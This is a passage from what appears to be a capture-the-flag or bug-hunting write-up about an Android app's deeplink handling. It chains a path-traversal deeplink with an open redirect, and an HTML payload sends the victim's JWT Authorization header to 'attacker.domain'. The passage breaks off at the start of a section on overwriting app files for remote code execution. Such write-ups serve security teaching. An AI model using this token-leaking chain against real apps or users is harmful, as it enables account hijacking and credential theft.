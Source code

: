 ### Leak the Victim's Authorization Token

let's check the other deeplink hander methods, the `handleBlog` method will launch the BlogpostActivity and pass the second segment from the deeplink URI which is a user controlled input in the deeplink regex, in normal this input should be the blog id
![](https://i.imgur.com/7wWPcUA.png)
then the BlogpostActivity sends a GET request to `/api/v1/blogs/blogID` to get the blog info such as title, description, and image URL
```HTML
<!DOCTYPE html>
<html>
<body>
<a href="mrf://dphoeniixx/blog/640f4199259ed37178284e6f">Blog</a>
</body>
</html>
```
![](https://i.imgur.com/rknFp37.png)

as you see in the image the GET request goes to `/api/v1/blogs/640f4199259ed37178284e6f` and you can see also that the request was sent with the user's JWT in the `Authorization` header, so if we could redirect this request to the attacker's domain the victim's authorization token will be leaked, this means that we must find an open redirect vulnerability in order to use it to direct the request to the attacker's domain.

navigating to the API path `https://52.139.154.230:8443/api/v1` will list all the API available endpoints including the `GET /redirect/:path` and as described this endpoint will redirect to /:path

![](https://i.imgur.com/gGxifxb.png)

after testing some of the common open redirect payloads I found that the URL `https://52.139.154.230:8443/api/v1/redirect/%2f%2fexample.com` will redirect the user to `https://example.com/` by combining this with the blog post deeplink we can redirect the endpoint`/api/v1/blogs/blogID` to the attacker's domain with the victim's authorization token (the attacker's domain must support https)

```HTML
<!DOCTYPE html>
<html>
<body>
<a href="mrf://dphoeniixx/blog/..%2fredirect%2f%252f%252fattacker.domain">Blog</a>
</body>
</html>
```
![](https://i.imgur.com/geHesgN.png)

the victim's authorization token sent to the attacker's domain
![](https://i.imgur.com/0OGmu3x.png)

and this is the second vulnerability 

### Overwriting The Application Files Leads to RCE
We are still in the `handleBlog` deeplink handler after the blog post info gets returned in the JSON response of `GET /api/v1/blogs/blogID` 
![](https://i.imgur.com/WKtVRp4.png)

